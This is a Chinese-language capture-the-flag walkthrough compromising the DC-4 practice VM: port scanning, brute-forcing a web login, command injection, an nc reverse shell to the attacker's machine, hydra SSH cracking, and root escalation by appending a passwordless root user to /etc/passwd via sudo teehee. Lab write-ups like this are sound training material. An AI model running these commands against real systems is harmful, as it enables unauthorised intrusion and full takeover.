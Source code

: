 
# 0x00环境

攻击机：kali（192.168.1.28）

靶机：DC-4（192.168.1.12）


# 0x01实战


## 端口扫描

```
nmap -sV -A -p- 192.168.1.12
```

![image-20220111094642715.png](_img\06-靶场实践/1652256328235-3a48ced6-cb03-4105-9180-1a8eb3cf434f.png)

可以看到开放了22号端口SSH服务和80端口HTTP服务

访问HTTP服务，是一个登录页面

![image-20220111094804504.png](_img\06-靶场实践/1652256333137-640078ab-7043-44a7-81d1-ae18130ccf4f.png)

查看网页源码，没什么卵用

![image-20220111094904759.png](_img\06-靶场实践/1652256336615-fe3968c0-5669-46f3-b1b3-9f609660a732.png)


## 目录扫描

并没有什么有用的信息

![image-20220111095500468.png](_img\06-靶场实践/1652256340086-eb549f2f-62f8-4aa6-8a14-0d17a0b00b0c.png)


## 暴力破解

输入账户admin任意密码，使用burpsuite抓包进行爆破

![image-20220111100742650.png](_img\06-靶场实践/1652256343257-ea434143-8694-4194-a397-61d8ba0b0feb.png)

爆破出密码为happy


## 漏洞发现

登录系统后发发现是一个可以执行系统命令的页面

![image-20220111100919355.png](_img\06-靶场实践/1652256347511-7b40f9f4-964e-4c22-ae17-76c472859fd9.png)

尝试使用burpsuite抓包修改命令来实现SRC

![image-20220111101149990.png](_img\06-靶场实践/1652256351029-10171776-c668-4f7a-b465-d0cac5742f68.png)

可以执行任意命令，尝试使用nc反弹shell


## 漏洞利用

设置监听

```
nc -vnlp 1234
```

![image-20220111101549464.png](_img\06-靶场实践/1652256355137-947753d1-5d30-473d-a762-a47eabbfa5c8.png)

使用NC反弹shell

```
nc 192.168.1.28 1234 -e /bin/bash
```

![image-20220111101918954.png](_img\06-靶场实践/1652256359009-7761984f-4a09-48e8-991b-d92724b78a86.png)

成功反弹

![image-20220111102027031.png](_img\06-靶场实践/1652256363338-f4f0261a-b2c5-4d49-8e25-19232ea328c0.png)

查看/etc/passwd文件

![image-20220111113446593.png](_img\06-靶场实践/1652256366494-bd87be74-6feb-4e06-bb60-695a3329da02.png)

在jim目录下的backups目录中发现字典文件old-passwords.bak

![image-20220111113740020.png](_img\06-靶场实践/1652256370547-b1fb822d-221f-4dd4-88fa-a223a927d8bc.png)

将字典文件保存下来使用hydra进行爆破

```
hydra -l jim -P password.txt ssh://192.168.1.12
```

![image-20220111114918220.png](_img\06-靶场实践/1652256376049-fdaf69dc-538b-48bc-90cc-0e6ac951adf0.png)

得到jim的密码jibril04

使用jim账号登录

```
ssh jim@192.168.1.12
```

![image-20220111115213797.png](_img\06-靶场实践/1652256381354-a268e7be-9a38-4593-ac36-c56f9d94a490.png)

查看jim目录下的mbox文件可以发现在2019年4月6日星期六20:20:04，收到了一封来自root的邮件

![image-20220111115736723.png](_img\06-靶场实践/1652256384722-6856bf5a-912c-49cf-be36-fa6883ae4973.png)

查看该邮件

![image-20220111115935335.png](_img\06-靶场实践/1652256388080-d4472441-99c6-4cdf-a24f-cbe08fbefc56.png)

在邮件中我们得到了一个用户密码charles/^xHhA&hvim0y

登录charle并查看scharles的sudo权限

![image-20220111120240351.png](_img\06-靶场实践/1652256391926-427fbb06-2a5b-44f0-ba00-cc524198a87d.png)

显示我们可以以root权限运行teehee命令

![image-20220111120535688.png](_img\06-靶场实践/1652256395862-fce2f126-c4f7-4c79-a4bf-5044adabac4d.png)

tee命令用于读取标准输入的数据，并将其内容输出成文件。在这里我们是root权限，所以我们可以给所有文件随意添加内容。


## 提权

向/etc/passwd中写入一个拥有root权限的用户
```
echo "XMTX::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
```

![image-20220111135359205.png](_img\06-靶场实践/1652256399016-4c74cdbf-c51a-4a15-8db6-7e3670893ee7.png)


## final-flag

在root根目录下找到flag

![image-20220111135511524.png](_img\06-靶场实践/1652256402114-664d07a2-0feb-4487-bc6c-c3d4166f083a.png)
